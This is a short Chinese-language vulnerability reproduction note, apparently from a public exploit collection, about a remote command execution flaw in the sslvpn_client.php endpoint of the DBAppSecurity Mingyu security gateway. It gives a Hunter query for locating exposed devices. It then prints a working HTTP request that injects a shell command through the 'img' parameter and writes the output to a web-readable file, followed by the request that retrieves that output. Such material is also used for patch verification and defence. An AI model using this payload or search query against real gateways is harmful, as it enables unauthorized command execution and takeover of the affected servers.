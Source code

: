 # 安恒明御安全网关sslvpn_client存在远程命令执行漏洞

# 一、漏洞简介
安恒信息明御安全网关<font style="color:rgb(0, 0, 0);">（以下简称“NGFW”）秉持安全可视、简单有效的理念，以资产为视角，构建“事前+事中+事后”全流程防御的下一代安全防护体系，并融合传统防火墙、</font>入侵防御系统<font style="color:rgb(0, 0, 0);">、防病毒网关、上网行为管控、VPN网关、威胁情报等</font>安全模块<font style="color:rgb(0, 0, 0);">于一体的智慧化安全网关。安恒明御安全网关sslvpn_client存在远程命令执行漏洞。攻击者可通过该漏洞获取服务器权限。</font>

# <font style="color:rgb(0, 0, 0);">二、影响版本</font>
+ 安恒明御安全网关

# 三、资产测绘
+ hunter`app.name="安恒明御安全网关"`
+ 特征

![1699939786628-0b13cd03-210c-4d73-9fb2-6198942e15c3.png](./img/pZPH-MQGPlAnSTs8/1699939786628-0b13cd03-210c-4d73-9fb2-6198942e15c3-374710.png)

# 四、漏洞复现
```plain
GET /sslvpn/sslvpn_client.php?client=logoImg&img=x%20/tmp|echo%20%60whoami%60%20|tee%20/usr/local/webui/sslvpn/ceshi.txt|ls HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1699939901505-2723aaa1-8c25-4f6b-9817-bdf3c6dd715a.png](./img/pZPH-MQGPlAnSTs8/1699939901505-2723aaa1-8c25-4f6b-9817-bdf3c6dd715a-272346.png)

获取命令执行结果

```plain
GET /sslvpn/ceshi.txt HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1699939937228-26653126-7961-44ef-bda2-0622411e755d.png](./img/pZPH-MQGPlAnSTs8/1699939937228-26653126-7961-44ef-bda2-0622411e755d-150327.png)



> 更新: 2024-02-29 23:57:16  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/dg8qpqumcbgb7vgs>